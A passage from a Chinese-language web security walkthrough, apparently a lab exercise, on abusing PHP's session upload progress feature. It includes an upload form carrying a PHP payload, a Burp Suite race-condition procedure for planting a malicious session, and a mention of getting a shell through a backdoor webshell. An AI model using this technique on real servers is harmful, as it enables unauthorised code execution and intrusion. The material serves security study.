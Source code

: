 [![](https://p5.ssl.qhimg.com/t01b41b737ed7915b67.png)](https://p5.ssl.qhimg.com/t01b41b737ed7915b67.png)

之后可以利用后门webshell进行连接Getshell

[![](https://p3.ssl.qhimg.com/t01fe9396d0b90ec0a4.png)](https://p3.ssl.qhimg.com/t01fe9396d0b90ec0a4.png)

<a class="reference-link" name="%E8%A1%A8%E5%8D%95%E5%88%A9%E7%94%A8%E6%94%BB%E5%87%BB"></a>**表单利用攻击**

上面的一种做法是通过编写脚本代码的方式去利用的，不过还有另一种利用手段就是表单的攻击利用。
- **表单构造**
这里可以更改官方给的案例进行利用

`upload.html`

```
&lt;!doctype html&gt;
&lt;html&gt;
&lt;body&gt;
&lt;form action="http://192.33.6.145/index.php" method="post" enctype="multipart/form-data"&gt;
    &lt;input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" vaule="&lt;?php phpinfo(); ?&gt;" /&gt;
    &lt;input type="file" name="file1" /&gt;
    &lt;input type="file" name="file2" /&gt;
    &lt;input type="submit" /&gt;
&lt;/form&gt;
&lt;/body&gt;
&lt;/html&gt;
```

但是同样需要注意的是，cleanup是on，所以需要条件竞争，使用BP抓包，一遍疯狂发包，一遍疯狂请求。
- **上传文件**
访问本地upload.html开启代理开始上传文件

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01e11d616620b1b454.png)
- **发包传入恶意会话**
代理拦截我们的上传请求数据包，这里需要设置`Cookie: PHPSESSID=123456789`（自定义sessionID），然后不断发包，生成session，传入恶意会话。

[![](https://p3.ssl.qhimg.com/t014f64d673444a09bb.png)](https://p3.ssl.qhimg.com/t014f64d673444a09bb.png)

请求载荷设置`Null payloads`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0169417d52c8646199.png)

不断发包维持恶意session的存储

[![](https://p5.ssl.qhimg.com/t013bf32297d4ae1a48.png)](https://p5.ssl.qhimg.com/t013bf32297d4ae1a48.png)

不断发包的情况下，在服务器上可以看到传入的恶意session
